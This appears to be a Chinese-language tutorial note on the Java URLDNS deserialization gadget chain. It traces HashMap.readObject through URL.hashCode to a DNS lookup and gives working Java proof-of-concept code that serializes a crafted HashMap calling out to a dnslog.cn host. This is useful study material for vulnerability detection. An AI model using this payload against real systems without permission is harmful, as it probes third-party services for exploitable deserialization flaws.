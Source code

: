 URLDNS链由于没有版本和依赖限制，。一般用于反序列化漏洞的验证，利用反序列化触发这条链子，引发DNS解析，以便验证漏洞。
```
已知：
1、HashMap类实现了Serializable是可以序列化和反序列化的。并重写了ReadObject方法。
2、HashMap的容器存入URL类型的对象时的Put方法，调用hash函数会触发对象的hashCode函数来计算hashcode。
3、HashMap重写了ReadObject方法，在反序列化时也会调用hash函数计算hashCode。
```

```
正向触发：
创建hashmap为URL类型的对象和URL对象
使用put存入URL对象数据到hashmap中，作为键或值均可
在hashmap调用put时，调用了Hashmap.java中的hash函数
在hash函数中又调用了这个URL对象的hashCode方法
URL对象中的hashcode方法中，如果hashcode=-1(还未初始化计算hashcode)，会执行URLStreamHandler中的hashCode函数
在URLStreamHandler中的hashCode函数中执行了getHostAddress函数解析了URL，获取ip，因此触发DNS解析(如果失败换一个wifi)

hashmap.put(URL,x)->hash(URL)->URL.hashcode-()>handler.hashcode()->getHostAddress()
```
## **反序列化触发**
payload
```
HashMap<URL, Integer> hashMap = new HashMap<>();
URL url = new URL("http://r2t55a.dnslog.cn");
Class<? extends URL> clazz = url.getClass();
Field code = clazz.getDeclaredField("hashCode");
code.setAccessible(true);
code.set(url, 1); // 伪装hashcode已经初始化，为了让getHostName()不执行。
hashMap.put(url, 1);
code.set(url, -1);// 让hashcode没有初始化，为了再反序列化的时候再初始化执行getHostName()。
```

```
FileOutputStream fileOutputStream = new FileOutputStream("ser.bin");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
objectOutputStream.writeObject(hashMap);
fileOutputStream.close();
objectOutputStream.close();

FileInputStream fileInputStream = new FileInputStream("ser.bin");
ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
Object o = objectInputStream.readObject();
System.out.println(o);
objectInputStream.close();
fileInputStream.close();
```
原理
`java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求。
```

1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```
参考：<https://z-bool.github.io/2022/10/16/java-deserializ-1/>

